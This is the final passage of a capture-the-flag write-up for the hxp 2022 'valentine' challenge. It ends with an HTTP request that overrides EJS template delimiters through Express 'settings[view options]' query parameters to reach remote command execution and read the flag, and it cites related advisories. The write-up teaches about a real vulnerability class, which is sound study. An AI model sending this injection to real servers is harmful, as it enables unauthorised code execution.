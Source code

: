 ![](../../zzz_res/attachments/valentine7.png)

Then we can request that template passing the `settings[view options]` fields with the new desired delimiters:

```http
GET /991a04f8-fecd-42f9-af93-31d29f13420c?name=asd&settings[view%20options][delimiter]=%2e&settings[view%20options][openDelimiter]=%5b&settings[view%20options][closeDelimiter]=%5d
Host: 127.0.0.1:9086
```

![](../../zzz_res/attachments/valentine8.png)

Finally we did it! We have remote command execution and we can exfiltrate the flag, either by showing it on the screen, or by using OAST techniques.

![](../../zzz_res/attachments/valentine9.png)

[^1]: https://ejs.co/#docs 
[^2]: https://ejs.co/#docs
[^3]: https://expressjs.com/en/api.html#res.render
[^4]: https://snyk.io/blog/fixing-ejs-rce-vuln/
[^5]: https://github.com/mde/ejs/wiki/Using-EJS-with-Express#passing-opts-with-data
[^6]: https://securitylab.github.com/advisories/GHSL-2021-021-tj-ejs/
[^7]: https://eslam.io/posts/ejs-server-side-template-injection-rce/
[^8]: https://github.com/expressjs/express/wiki/Migrating-from-2.x-to-3.x
[^9]: https://hxp.io/blog/101/hxp-CTF-2022-valentine/